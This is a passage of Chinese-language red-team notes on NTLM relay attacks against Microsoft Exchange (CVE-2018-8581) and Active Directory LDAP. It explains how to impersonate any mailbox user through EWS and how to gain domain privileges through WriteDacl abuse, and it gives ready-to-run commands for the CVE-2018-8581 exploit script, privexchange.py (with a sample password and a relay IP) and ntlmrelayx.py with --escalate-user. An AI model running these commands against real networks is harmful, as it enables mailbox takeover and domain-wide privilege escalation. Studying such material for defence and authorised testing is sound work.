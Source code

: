 由于 Exchange 是以 System 用户的权限运行, 因此我们拿到的是机器用户的 Net-Ntlm Hash。并不能直接用以登录。但是 Exchange 机器用户可以获得 TokenSerializationRight 的 ”特权” 会话，可以 Relay 到 机子本身的 Ews 接口，然后可以使用 SOAP 请求头来冒充任何用户。
- https://github.com/WyAtu/CVE-2018-8581

本地 NT AUTHORITY\SYSTEM 账户对 Exchange 服务器拥有 ms-Exch-EPI-Token-Serialization 权限，可以在连接 /EWS 接口时修改 SOAP Header 为其他邮箱用户的 SID 来模拟成任何邮箱用户。因此可以中继至 /EWS 接口，实现任意用户的邮件发送、邮件下载、邮件委托、设置主页等功能。
```bash
# 查看本地 NT AUTHORITY\SYSTEM 账户对 Exchange 服务器拥有 ms-Exch-EPI-Token-Serialization 权限
PS C:\> Get-ADPermission -Identity WIN2012-Ex2016 | where {($_.ExtendedRights -like "ms-Exch-EPI-Token-Serialization") -and $_.Deny -like "False"} |fl

# 手动修改 CVE-2018-8581_debug.py 参数后执行
python2 CVE-2018-8581_debug.py

# 然后 zhangsan 可以打卡 lisi 的收件箱文件夹查看其邮件。
```

**http relay to LDAP**

所有的 Exchange Server 都在 Exchange Windows Permissions 组里面, 而这个组默认就对域有 WriteACL 权限.

因此我们可以 relay 到 LDAP, 而又由于 Relay 到的服务端是 Ldap,Ldap 服务器的默认策略是协商签名。而不是强制签名。是否签名由客户端决定。在 SSRF 里面发起的请求是 http 协议，http 协议是不要求进行签名.

Exchange 机器账户对域分区拥有 WriteDacl 权限，直接通过 ACL 进行提权。
```bash
# 设定订阅
python3 privexchange.py win2012-ex2016.island.com -d island.com -ah 192.168.123.123 -u zhangsan -p ZS@123qwe --debug

# 内网机器上做中继，自动通过 ACL 进行提权
python3 ntlmrelayx.py -t ldap://WIN2012-DC1.island.com --escalate-user zhangsan --no-dump
```

---

### LDAP中继

**相关文章**
- [How to Exploit Active Directory ACL Attack Paths Through LDAP Relaying Attacks](https://www.praetorian.com/blog/how-to-exploit-active-directory-acl-attack-paths-through-ldap-relaying-attacks/)

#### LDAP签名

在默认情况底下，ldap 服务器就在域控里面，而且默认策略就是协商签名。而不是强制签名。是否签名是有客户端决定的。服务端跟客户端协商是否签名。

客户端分情况，如果是 smb 协议的话，默认要求签名的，如果是 webadv 或者 http 协议，是不要求签名的

微软公司于 2019-09-11 日发布相关通告称微软计划于 2020 年 1 月发布安全更新。为了提升域控制器的安全性，该安全更新将强制开启所有域控制器上 LDAP channel binding 与 LDAP signing 功能。

#### Impcaket ntlmrelayx

**高权限用户**

如果 NTLM 发起用户在以下用户组
- Enterprise admins
- Domain admins
- Built-in Administrators
- Backup operators
- Account operators
